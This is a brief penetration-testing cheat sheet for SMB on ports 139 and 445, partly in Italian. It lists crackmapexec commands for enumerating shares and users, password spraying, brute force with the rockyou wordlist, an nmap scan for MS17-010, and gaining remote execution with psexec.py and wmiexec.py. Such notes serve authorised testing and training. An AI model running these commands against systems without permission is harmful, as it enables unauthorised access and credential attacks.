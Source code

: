 # SMB 139,445

### **Share and Permissions Enumeration**

```bash
cme smb <ip> -u guest -p "" --shares
```

### **Share Content Enumeration**

```bash
cme smb <IP> -u <USER> -p "<PASS>" -M spider_plus
```

### **Users Enumeration**

```bash
crackmapexec smb <IP> -u <USER> -p '<PASS>' --users
```

#### Users Password Spray

Put the users in a list and then try to see if there is password reuse

{% code overflow="wrap" %}
```bash
crackmapexec smb <IP> -u users.txt -p '<PASS>' --continue-on-success
```
{% endcode %}

### **CHECK VULN SU SMB(MS17-010 ECC...)**

```bash
nmap -p445 --script vuln
```

### SMB Brute Force

{% code overflow="wrap" %}
```bash
crackmapexec smb <MACHINE-IP> -u <USER> -p /usr/share/wordlists/rockyou.txt
```
{% endcode %}

### **PWN**

```bash
cme smb <IP> <USER> -p "<PASS>"
```

![file://C:/Users/STRAOL\~1/AppData/Local/Temp/.HAXM41/2.png](file:///C:/Users/STRAOL\~1/AppData/Local/Temp/.HAXM41/2.png) poi

```bash
psexec.py <NOME DOMINIO>/<USER>@<IP>
```

o

```bash
wmiexec.py <NOME DOMINIO>/<USER>@<IP>
```
